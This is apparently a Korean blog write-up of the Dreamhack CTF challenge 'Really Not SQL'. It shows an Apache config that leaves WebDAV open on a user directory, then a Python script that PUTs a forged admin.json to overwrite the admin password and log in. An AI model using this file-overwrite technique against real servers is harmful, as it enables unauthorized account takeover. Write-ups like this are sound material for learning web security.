 ```yaml
---
layout: post
title: "[DH]Really Not SQL"
date: 2025-08-07 12:04 +0900
---
```

### **INFO**
![chall]
_Fig 1. Challenge_

보안적으로 취약한 설정을 찾아, 파일 덮어쓰기를 통해 익스플로잇을 하는 문제이다.

### **RECON**
아파치-PHP 스택을 사용하는 웹 서버의 내부 코드가 주어진다. 
이떄, admin, guest의 계정이 주어진 것을 확인할 수 있으며, admin으로 로그인하면 flag.php를 통해 서버 내부의 플래그 값을 입력할 수 있다.

### **SOLUTION**
admin 게정은 json으로 관리되며, /var/www/http/user/admin.json 경로로 접근이 가능하다.

edit_profile.php 파일에서 계정의 비밀번호를 수정할 수 있는 기능이 존재하지만, admin 계정의 세션 인증이 필요하기 때문에 접근할 수 없다.

서버의 설정 파일을 확인해보자. 아파치 웹 서버에서 기본적으로 생성되는 000-default.conf 파일을 보면, `/var/www/http/user` 경로에 취약하게 설정이 된 것을 확인할 수 있다.

```js
  <Directory /var/www/html/user/>
      DAV On                    // WebDav 기능 활성화
      Options Indexes           // index.html(.php) 가 없으면 파일리스트 출력
      AllowOverride All         // .htaccess 파일을 통한 설정 덮어쓰기 허용
      Require all granted       // 누구에게나 해당 폴더 접근 허용
  </Directory>
```

WebDav에 대한 설명은 다음 [링크](https://umbum.dev/562/)를 참고하길 바란다. 

### **POC**

DAV On 설정을 통해 /var/www/html/user 경로에 파일을 덮어쓸 수도, 파일을 새로 올릴 수도 있다.

admin 계정으로 로그인하는 것이 목표이기 때문에, 파일 업로드 공격을 시도했다.

임의의 비밀번호를 sha-256 해시한 값을 업로드할 json 파일에 넣고, requests로 서버에 업로드하였다.

```json
{"no": 0, "id": "admin", "password": "{NEW_PASSWORD}"}
```

```py
import requests

url = "http://host8.dreamhack.games:24093/user/admin.json"


file_path = './new_admin.json'

with open(file_path, 'rb') as f:
    res = requests.put(url, data=f)

print(f'HTTP 상태 코드: {res.status_code}')
if res.status_code in [200, 201, 204]:
    print('파일 업로드(수정) 성공!')
else:
    print('업로드 실패')
```

이제 admin 계정으로 로그인이 가능해지며, flag.php 경로를 입력하면 플래그를 획득할 수 있다.

![login]

[chall]: /assets/DreamHack/reallynotsql/challenge.png
[login]: /assets/DreamHack/reallynotsql/solution_login.png